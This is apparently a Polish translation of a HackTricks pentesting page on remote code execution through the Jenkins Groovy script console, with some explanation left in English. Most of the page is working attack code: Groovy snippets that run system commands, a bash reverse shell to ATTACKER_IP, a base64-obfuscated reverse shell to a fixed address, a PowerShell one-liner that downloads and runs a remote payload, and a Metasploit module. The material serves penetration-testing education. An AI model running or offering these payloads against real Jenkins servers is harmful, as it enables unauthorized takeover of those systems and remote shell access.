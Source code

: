 # Jenkins RCE z użyciem skryptu Groovy

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Jenkins RCE z użyciem skryptu Groovy

To jest mniej uciążliwe niż tworzenie nowego projektu w Jenkins

1. Przejdź do _path\_jenkins/script_
2. Wprowadź skrypt w polu tekstowym
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Możesz wykonać polecenie za pomocą: `cmd.exe /c dir`

W **linuxie** możesz użyć: **`"ls /".execute().text`**

Jeśli musisz użyć _cudzysłowów_ i _apostrofów_ wewnątrz tekstu, możesz użyć _"""PAYLOAD"""_ (potrójne podwójne cudzysłowy) do wykonania payloadu.

**Inny przydatny skrypt groovy** to (zamień \[WSTAW POLECENIE]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Odwrócony shell w systemie Linux

A reverse shell is a technique used in penetration testing to gain remote access to a target machine. It involves establishing a connection from the target machine to the attacker's machine, allowing the attacker to execute commands on the target machine.

To create a reverse shell in Linux, you can use the following command:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

Replace `ATTACKER_IP` with the IP address of your machine and `ATTACKER_PORT` with the port number you want to use for the connection.

After executing this command on the target machine, it will establish a connection to your machine, and you will have a shell prompt that allows you to execute commands on the target machine remotely.

Keep in mind that using reverse shells for unauthorized access to systems is illegal and unethical. Reverse shells should only be used for legitimate purposes, such as penetration testing with proper authorization.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Odwrócona powłoka w systemie Windows

Możesz przygotować serwer HTTP z odwróconą powłoką PS i użyć Jekinsa do pobrania i wykonania jej:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Skrypt

Możesz zautomatyzować ten proces za pomocą [**tego skryptu**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Możesz użyć MSF do uzyskania odwróconego powłoki (reverse shell):
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
